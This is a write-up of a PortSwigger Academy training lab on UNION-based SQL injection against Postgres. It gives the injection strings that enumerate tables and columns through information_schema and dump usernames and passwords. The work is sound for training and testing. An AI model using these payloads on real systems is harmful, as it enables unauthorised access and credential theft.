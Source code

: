 # Write-up: SQL injection attack, listing the database contents on non-Oracle databases @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *SQL injection attack, listing the database contents on non-Oracle databases* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

![lab_description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

The first steps are identical to the labs [SQL injection UNION attack, determining the number of columns returned by the query](../SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query/README.md) and [SQL injection UNION attack, finding a column containing text](../SQL_injection_UNION_attack,_finding_a_column_containing_text/README.md) and are not repeated here.

As a result of these steps, I find out that the number of columns is 2, with both being string columns.

### Find users table

The database in use here is Postgres (enumerated by injection `' UNION SELECT null,version()--`), which holds the table information in the information_schema.tables-table. In the [relevant documentation](https://www.postgresql.org/docs/9.1/infoschema-tables.html), the available columns are listed. We are interested in `table_name`. So inject `' UNION SELECT table_name, table_schema from information_schema.tables--` into the parameter to form the following query:

I use an invalid category so that no articles are found and only my output appears.

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, null from information_schema.tables--'`
```

![name of the users table](img/found_users_table.png)

### Enumerate colums in this table

The [information_schema.columns](https://www.postgresql.org/docs/9.1/infoschema-columns.html) view holds information about the columns of each table, specifically the `column_name` column. The proper string to inject is `' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcstmf'--` to form this query

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcstmf'--'
```

![username and password columns](img/username_and_password_columns.png)

### Enumerate all usernames and passwords

Now we have all information to obtain the required usernames and passwords. Inject `' UNION SELECT username_spivdg, password_dfxmeh from users_kcstmf--` to form this query:

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT username_spivdg, password_dfxmeh from users_kcstmf--'`
```

![usernames and passwords](img/username_and_passwords.png)

Now I simply log in to solve this exercise.

![success](img/success.png)
